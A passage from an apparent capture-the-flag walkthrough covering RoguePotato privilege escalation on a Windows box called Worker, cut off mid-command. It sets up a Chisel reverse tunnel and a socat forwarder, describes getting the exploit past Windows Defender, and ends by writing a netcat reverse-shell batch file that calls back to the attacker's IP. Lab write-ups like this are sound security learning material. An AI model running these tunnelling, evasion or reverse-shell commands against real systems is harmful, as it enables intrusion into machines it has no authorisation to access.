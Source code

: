 
There’s a problem here. The firewall is blocking all inbound tcp ports except
for the three identified during the initial `nmap`. RoguePotato needs to have
a listening port such that the connection to TCP 135 on my host is tunneled
back to the target host on that port.

### Tunnel

Rather than mess with the Fake OXID exe, I’ll create the tunnel myself with
[Chisel](https://github.com/jpillora/chisel). I’ll start the server locally,
and then upload the exe to Worker and connect as a client:

    
    
    c:\ProgramData>.\c client 10.10.14.24:8000 R:9999:localhost:9999
    .\c client 10.10.14.24:8000 R:9999:localhost:9999
    2020/08/23 13:31:41 client: Connecting to ws://10.10.14.24:8000
    2020/08/23 13:31:41 client: Fingerprint 13:b9:97:ca:c7:6e:ae:5d:cd:b6:f1:bf:3c:d3:c7:ec
    2020/08/23 13:31:41 client: Connected (Latency 1.0691ms)
    

The server gets the connection:

    
    
    root@kali# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
    2020/08/23 07:27:53 server: Reverse tunnelling enabled
    2020/08/23 07:27:53 server: Fingerprint 13:b9:97:ca:c7:6e:ae:5d:cd:b6:f1:bf:3c:d3:c7:ec
    2020/08/23 07:27:53 server: Listening on 0.0.0.0:8000...
    m2020/08/23 07:29:58 server: proxy#1:R:0.0.0.0:9999=>localhost:9999: Listening
    

Now on my Kali box there’s a listener on 9999 that will forward to 9999 on
Worker.

I’ll create a `socat` listener that will forward incoming on TCP 135 to
localhost 9999, which will be picked up by the `chisel` tunnel and sent back
to 9999 on Worker:

    
    
    root@kali# socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
    

The request will look like (and the response will travel the same path in the
opposite direction):

![image-20210129121730010](https://0xdfimages.gitlab.io/img/image-20210129121730010.png)

This could probably be done without `socat`, just using `chisel` to listen on
135, but I didn’t test that.

### Defender

Windows Defender will eat `RoguePotato.exe` when it’s on disk, but it turns
out that if I run it fast enough, I can get it to execute before it’s detected
and quarantined. I had more success running the payload as a `.bat` file.

    
    
    c:\ProgramData>echo c:\programdata\nc.exe -e cmd 10.10.14.24 443 > rev.bat                    
                                                  
